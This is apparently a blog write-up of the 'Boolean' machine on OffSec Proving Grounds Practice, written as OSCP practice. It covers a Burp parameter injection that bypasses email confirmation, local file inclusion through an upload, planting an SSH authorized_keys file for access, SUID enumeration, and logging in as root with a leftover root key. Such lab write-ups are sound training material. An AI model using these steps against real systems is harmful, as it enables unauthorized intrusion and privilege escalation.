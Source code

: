 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Boolean"
date:   2024-07-25 13:12:31 -0400
categories: oscp proving-grounds TJNull
---
```




192.168.169.231
me - 192.168.45.213






http://192.168.169.231/login

dirsearch -u http://192.168.169.231 -r -o dirsearch.txt



- using burp we can add the following to the update email command so that it confirms our address
&user%5Bconfirmed%5D=True

- upload a file and click on it then look at the url bar, there is a local file inclusion exploit

- change directory to the user remi home directory and then move under .ssh. We can generate a key locally and upload the authorized_keys file to remis .ssh dir which will allow us to bypass passwd auth


ssh-keygen
cp /home/kali/.ssh/id_rsa.pub authorized_keys


ssh remi@192.168.169.231 -i id_ed25519


now we are in

- no sudo


getcap -r / 2>/dev/null
- nothing

find / -perm -u=s 2>/dev/null | grep -v '^/proc|^/run|^/sys|^/snap'

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign


Navigate to the home/remi/.ssh/Keys

Here root SSH key is present. so using that we can log in as root in the same terminal.

ssh -i ~/.ssh/keys/root root@127.0.0.1
